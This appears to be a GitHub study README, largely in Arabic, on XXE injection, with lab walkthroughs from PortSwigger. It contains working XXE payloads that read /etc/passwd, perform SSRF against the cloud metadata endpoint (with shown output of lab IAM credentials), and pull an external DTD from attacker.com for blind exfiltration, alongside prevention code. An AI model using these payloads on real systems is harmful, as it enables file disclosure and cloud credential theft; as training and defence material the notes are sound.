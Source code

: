 # XML external entity (XXE) injection

- <details>
     <summary>XXE</summary>

     
     # XML external entity (XXE) injection
     
     في هذا الملف نشرح ما هو **XML external entity injection (XXE)**، نعرض أمثلة شائعة، نشرح كيفية العثور على الثغرة واستغلالها بأنواعها المختلفة، ونلخّص طرق الوقاية.
     
     > **تحذير**: الأمثلة والتعليمات هنا مخصّصة للأغراض التعليمية واختبار الأمن على بيئات قانونية (مختبرات PortSwigger / HTB / VM خاص بك). لا تستخدمها على أنظمة غير ملكك.
     
     ---
     
     ## 1) ما هو XXE باختصار
     
     **XML External Entity (XXE)** هو ثغرة تحدث عندما يعالج السيرفر بيانات XML ويقبل تعريفات DTD/Entities خارجية بدون تحقّق. المهاجم يقدر يعرف `ENTITY` مرتبط بملف أو URL، وبهذا يستطيع:
     
     * الاطّلاع على ملفات على ملفّ نظام السيرفر (file disclosure).
     * تنفيذ **Server-Side Request Forgery (SSRF)** للوصول إلى أنظمة داخلية يقدر التطبيق الوصول لها.
     * استخراج بيانات *out-of-band* (مثل DNS/HTTP callbacks) إلى نظام المهاجم.
     * التسبّب بأخطاء تكشف بيانات حسّاسة (error-based).
     
     ## 2) لماذا تحدث الثغرة؟
     
     لأن مكتبات ومعالجات XML الافتراضية تدعم خصائص مثل DTDs وExternal Entities، وفي كثير من التطبيقات لا يقوم المطوّرون بتعطيل هذه الميزات أو تأمينها.
     
     ## 3) أنواع هجمات XXE
     
     * **استرجاع الملفات مباشرة (Direct file retrieval)**: تعريف `ENTITY` يقرأ ملف محلي ويُدرَج في الاستجابة.
     * **SSRF عبر XXE**: تعريف `ENTITY` يوجّه إلى URL داخلي (مثلاً `http://127.0.0.1:8080/admin`).
     * **Blind OOB (DNS/HTTP callback)**: لا تعرض البيانات في الاستجابة لكن السيرفر يتصل بعنوان يتحكم فيه المهاجم لتسليم المحتوى.
     * **Error-based**: التلاعب بالـXML لإحداث خطأ يحتوي على بيانات حسّاسة.
     
     ## 4) أمثلة Payload )
     
     **تنبيه قوي:** استخدم الأمثلة في بيئات قانونية فقط.
     
     **File disclosure (بسيط):**
     
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE root [
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
     ]>
     <root>&xxe;</root>
     ```
     
     **SSRF (طلب HTTP داخلي):**
     
     ```xml
     <!DOCTYPE root [
       <!ENTITY xxe SYSTEM "http://127.0.0.1:8000/secret">
     ]>
     <root>&xxe;</root>
     ```
     
     **Blind OOB (DNS/HTTP callback):**
     
     ```xml
     <!DOCTYPE root [
       <!ENTITY % remote SYSTEM "http://attacker.com/payload.dtd">
       %remote;
     ]>
     <root>&send;</root>
     ```
     
     `payload.dtd` على جهة المهاجم يمكن أن يعرّف ENTITY يرسل محتوى ملف إلى `attacker.com` أو يسبب DNS lookup فريد.
     
     ## 5) كيف تلاقي XXE )
     
     * ابحث عن نقاط إدخال تستقبل XML (APIs، SOAP، SAML assertions، RSS/Atom، file uploads).
     * جرّب إدخال نص يحتوي `<!DOCTYPE` — إذا ظهر خطأ متعلق بالـDTD فقد تكون نقطة دخول.
     * استخدم أدوات مثل Burp Repeater أو curl لإرسال الـpayloads.
     * لاختبارات OOB استخدم Burp Collaborator أو DNSLog أو خدمة DNS قابلة للتحكّم. أي callback يؤكّد وجود ثغرة blind XXE.
     * راقب السجلات لسلوك outgoing HTTP/DNS أثناء الاختبار.
     * استخدم أدوات أتمتة كـBurp Scanner أو Nuclei مع قوالب XXE، لكن اليدوي غالباً أقوى للحالات المعقدة.
     
     ## 6) استراتيجيات الاستغلال حسب النوع
     
     * **إذا كانت الاستجابة تعرض المحتوى مباشرة** → استخدم payloads لاسترجاع ملفات.
     * **إذا لم تظهر بيانات لكن تملك OOB** → استخدم DTD خارجي يطلب مورد على سيرفر المهاجم.
     * **إذا كان parser يمنع DTD لكن يسمح بالـentities** → جرّب تقنيات blind عبر الأخطاء أو التوقّعات الزمنية.
     * **إذا كان السيرفر يمنع تحميل موارد خارجية** → ابحث عن رسائل خطأ تفصّل أجزاء من الملف.
     
     ## 7) كيف تمنع XXE — خطوات عملية
     
     1. **تعطيل معالجة DTD والـExternal Entities** في parser (الأهم). أمثلة:
     
        * **Java (javax.xml):**
     
        ```java
        factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
        factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        ```
     
        * **.NET:**
     
        ```csharp
        XmlReaderSettings settings = new XmlReaderSettings();
        settings.DtdProcessing = DtdProcessing.Prohibit;
        ```
     
        * **Python:** استخدم مكتبة `defusedxml` بدلاً من معالجات XML الافتراضية غير الآمنة.
     
        * **PHP:** `libxml_disable_entity_loader(true);` — راجع التوثيق لأن بعض الدوال تغيّرت في الإصدارات الحديثة.
     
     2. **تحديث المكتبات**: استعمل نسخ parser آمنة ومحدّثة.
     
     3. **التحويل إلى JSON** إذا لم تكن تحتاج ميزات XML المعقّدة.
     
     4. **تقييد الشبكة والصلاحيات**: امنع التطبيق من إجراء طلبات خارجية أو قيّدها جدارياً، وشغّل الخدمة بصلاحيات محدودة.
     
     5. **التحقّق من المدخلات**: لا تعالج XML مباشرة من مصادر غير موثوقة دون تحقق.
     
     6. **مراقبة outgoing DNS/HTTP** وفعّل Logging/IDS.
     
     7. **اختبار أمني دوري**: ضمن فحص XXE ضمن الاختبارات الآلية واليدوية.
     
     ## 8) نصايح في الكود — أمثلة سريعة
     
     * **Java**: تعطيل DTD كما سلف.
     * **Python**: استخدم:
     
     ```python
     from defusedxml import ElementTree as ET
     root = ET.fromstring(user_xml)
     ```
     
     * **.NET**: منع DTD عبر `XmlReaderSettings`.
     
     ## 9) إشارات إنك معرض للثغرة
     
     * التطبيق يتعامل مع SOAP, SAML, RSS أو يقبل ملفات XML من المستخدمين.
     * وجود مكتبات معالجة XML قديمة.
     * سجلات تظهر محاولات تحميل موارد خارجية أثناء معالجة XML.
     
     
     
          
  </details>


<details>
     <summary>Exploiting XXE to retrieve files</summary>

# Exploiting XXE to retrieve files


---

## 1) الفكرة  
الهدف هو تعريف **كيان خارجي** (external entity) داخل `DOCTYPE` في الـXML بحيث تكون قيمته محتوى ملف محلي (مثلاً `/etc/passwd`) ثم استعمال هذا الكيان داخل عنصر من عناصر الـXML الذي يعالجه السيرفر. لو معالج الـXML يحلّ الكيانات الخارجية، سيستبدل `&xxe;` بمحتوى الملف ويُرجِع هذا المحتوى في الاستجابة — وبكده نطلع الملف.

---

## 2) المثال الأصلي (قبل التعديل)
التطبيق بيبعت XML للسيرفر للتحقّق من حالة المنتج مثلاً:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
   <productId>381</productId>
</stockCheck>
```

---

## 3) الـPayload المستخدم للاستغلال
نعدل الـXML بحيث نضيف `DOCTYPE` ونعرف `ENTITY` من ملف النظام ثم نستخدمه داخل `<productId>`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
   <productId>&xxe;</productId>
</stockCheck>
```

**شرح سريع للسطرين المهمين:**
- `<!DOCTYPE foo [...]>`: إعلان DTD داخلي يسمح بتعريف كيانات داخل القوسين.  
- `<!ENTITY xxe SYSTEM "file:///etc/passwd">`: نعرّف كيان اسمه `xxe` وقيمته تأتي من ملف `/etc/passwd`.  
- في مكان `<productId>` نستخدم `&xxe;` علشان يتبدل بمحتوى الملف عند المعالجة.

---

## 4) النتيجة المتوقعة لو الاستغلال نجح
لو السيرفر يطبع قيمة `productId` داخل رسالة أو في الاستجابة، ومُعالج الـXML يسمح بتحميل الكيانات، ستبدو الاستجابة مثل:
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

---

## 5) لماذا الاستغلال ده ينجح تقنيًا
- مواصفة XML تدعم DTDs والكيانات (`<!ENTITY>`).  
- بعض معالجات XML تسمح بكيانات خارجية (`SYSTEM URI`) وتحملها من نظام الملفات أو شبكات.  
- إذا لم يقُم المطورون بتعطيل DTD/الكيانات أو تقييد صلاحيات العملية، المعالج سيجلب الملف ويضع محتواه مكان الـentity.

---

## 6) حالات يفشل فيها الاستغلال
- parser مُعدّ لتعطيل DTD/الكيانات (مثلاً `disallow-doctype-decl = true`).  
- صلاحيات العملية تمنع القراءة من مسارات النظام (sandbox / chroot / limited user).  
- التطبيق **لا يعيد** (لا يطبع) قيم الإدخال في الاستجابة أو يعالجها داخلياً بدون إظهارها.  
- هناك فلترة تزيل `<!DOCTYPE` أو تحظر URIs مثل `file:///`.  
- السيرفر يقوم بتحويل XML بطريقة تفصل أو تمنع توسعة الكيانات (مثلاً parsing آمن أو تحويل إلى JSON مبكّر).

---

## 7) Variations مفيدة للمعرفة
- **SSRF عبر XXE**: بدل `file:///` تضع `http://127.0.0.1:8000/secret` فتجبر السيرفر على طلب خدمة داخلية.  
- **Blind OOB (DNS/HTTP callback)**: لو الاستجابة لا تكشف الملف، تقدر تستخدم DTD خارجي يجبر السيرفر يتصل لنطاق تملكه (مثل Burp Collaborator) وترصده لالتقاط البيانات.  
- **Error-based extraction**: تصنع خطأ parsing ينتج رسالة خطأ تحوي بيانات حساسة.

---

## 8) كيف تكشف الثغرة أثناء اختبار أمني
- جرّب إدخال `<!DOCTYPE` أو payloads بسيطة وشوف الاستجابة والأخطاء.  
- استخدم أدوات OOB مثل Burp Collaborator أو خدمات DNSLog لمراقبة أي اتصالات صادرة عند تجربة DTD خارجي.  
- راجع سجلات الخادم: طلبات DNS أو HTTP الصادرة، وأخطاء parser أثناء المعالجة.  
- استخدم Burp Repeater لإعادة بناء الطلبات يدويًا — الأتمتة مفيدة لكن اليدوي في حالات XXE غالبًا أفضل.

---

## 9) كيفية الوقاية (أفضل ممارسات)
1. **عطّل DTD وExternal Entities في الـXML parser** — أهم إجراء:  
   - Java (مثال):
   ```java
   factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
   factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
   factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
   ```
   - Python:
   ```python
   from defusedxml import ElementTree as ET
   root = ET.fromstring(user_xml)
   ```
   - .NET:
   ```csharp
   XmlReaderSettings settings = new XmlReaderSettings();
   settings.DtdProcessing = DtdProcessing.Prohibit;
   ```
   - PHP: راجع توثيق `libxml_disable_entity_loader` وتحديثات الإصدارات الحديثة.
2. **شغّل التطبيق بأقل الصلاحيات** ومنع الوصول غير الضروري لملفات النظام.  
3. **قيّد الاتصالات الصادرة** من الخادم (جدار ناري، قواعد شبكة داخلية).  
4. **افضل لتحويل البيانات**: لو JSON يكفي بدّل XML إلى JSON.  
5. **مراقبة Logging/IDS** للاتصالات الصادرة (DNS/HTTP) والتنبيهات.  
6. **تحديث المكتبات** وإدراج فحوص XXE ضمن الاختبارات الدورية.

---

## 10) خاتمة وتنبيه قانوني
المثال السابق هو حالة تعليمية قوية لاختبار XXE في بيئات مُصرّح بها (مختبرات مثل PortSwigger أو بيئة VM خاصة بك). استخدام الطرق دي على أنظمة غير مصرح لك بفحصها هو اختراق جرمي — لا تعمل ده إلا في بيئة قانونية.

---

إذا تحب، أقدر أعمل لك:
- ملف Markdown جاهز للتحميل (أحطه دلوقتي).  
- أو نحلّ lab عملي سوا خطوة بخطوة (Burp Repeater + Burp Collaborator) داخل بيئة اختبار آمنة — قلّي تختار إيه.




     
</details>


















---


<details>
     <summary>Lab: Exploiting XXE using external entities to retrieve files</summary>

1. navigate products and choose one of them then cick **`check stock`**

<img width="921" height="581" alt="image" src="https://github.com/user-attachments/assets/f6fc78c2-2aae-414a-8258-7549344143ae" />

2. we find this `XML`

```html
<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
     <productId>2</productId>
     <storeId>1</storeId>
  </stockCheck>
```

<img width="1411" height="786" alt="image" src="https://github.com/user-attachments/assets/14875164-d4d9-4b66-ae80-c196e1b9cc98" />


3. now try to get content of **`/etc/passwd`**

```html
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
   <stockCheck>
      <productId>&xxe;</productId>
      <storeId>1</storeId>
    </stockCheck>
```

<img width="1420" height="715" alt="image" src="https://github.com/user-attachments/assets/f7ec8761-39da-4e2f-ac2c-5f0139977199" />


     
</details>















<details>
     <summary>Lab: Exploiting XXE to perform SSRF attacks</summary>

1. navigate products and choose one of them then cick **`check stock`**

<img width="921" height="581" alt="image" src="https://github.com/user-attachments/assets/f6fc78c2-2aae-414a-8258-7549344143ae" />

2. we find this `XML`

```html
<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
     <productId>2</productId>
     <storeId>1</storeId>
  </stockCheck>
```

<img width="1411" height="786" alt="image" src="https://github.com/user-attachments/assets/14875164-d4d9-4b66-ae80-c196e1b9cc98" />


3. now try to Do ssrf attack

```html
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
   <stockCheck>
      <productId>&xxe;</productId>
      <storeId>1</storeId>
    </stockCheck>
```

<img width="1451" height="720" alt="image" src="https://github.com/user-attachments/assets/a64dda95-439e-4337-8d69-bcc16d70277c" />

```
"Invalid product ID: latest"
```

## let's try 

```html
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
   <stockCheck>
      <productId>&xxe;</productId>
      <storeId>1</storeId>
    </stockCheck>
```


`found`

```
"Invalid product ID: meta-data"
```

## try again 

```html
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/meta-data"> ]>
   <stockCheck>
      <productId>&xxe;</productId>
      <storeId>1</storeId>
    </stockCheck>
```

> ## untill reach  

```html
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
   <stockCheck>
      <productId>&xxe;</productId>
      <storeId>1</storeId>
    </stockCheck>
```

**`output`**

```

"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2025-09-27T16:39:23.945563032Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ddHGhchWgerX7KM3G1S5",
  "SecretAccessKey" : "JT2GggMKVTJnqBcug4RviThUhQC3Z21ZMfjPKBFb",
  "Token" : "Fxpj4BARs6E098texzKOeSL9GyLIMz6acyEhzzk4HZ3JDLJ2PHv3jZutSWgBXvIKa70LHRwEhFwqzAunvngn1FbTbg6kKTq8M6i1jzEkoCOfrlTiY0urPhRHy5FIQhLVZym9J6B8rlGXiBWPr5RQGnplWqTeRs7fj1NWhsT7wECTU1dGfg0lZpYuAXoERPi9ZRFqLtaPGHI1ijpB8uZclPBgaI7wTcmFmyMU90J9X0vDm8Hlsj5LiAW7pVZlZEsQ",
  "Expiration" : "2031-09-26T16:39:23.945563032Z"
}"
```


<img width="1463" height="700" alt="image" src="https://github.com/user-attachments/assets/c232d26c-f012-4bfd-9590-de12a1bc4e77" />



     
</details>



<details>
     <summary>Lab: Blind XXE with out-of-band interaction</summary>



1. navigate products and choose one of them then cick **`check stock`**

<img width="921" height="581" alt="image" src="https://github.com/user-attachments/assets/f6fc78c2-2aae-414a-8258-7549344143ae" />

2. we find this `XML`

```html
<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
     <productId>2</productId>
     <storeId>1</storeId>
  </stockCheck>
```

<img width="1411" height="786" alt="image" src="https://github.com/user-attachments/assets/14875164-d4d9-4b66-ae80-c196e1b9cc98" />

3. eidt request to to out of band xml 

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
  <stockCheck>
     <productId>&xxe;</productId>
     <storeId>1</storeId>
  </stockCheck>
```


<img width="1512" height="651" alt="image" src="https://github.com/user-attachments/assets/d60aec77-56b8-48b1-bf64-722791c23bfc" />




     
</details>




































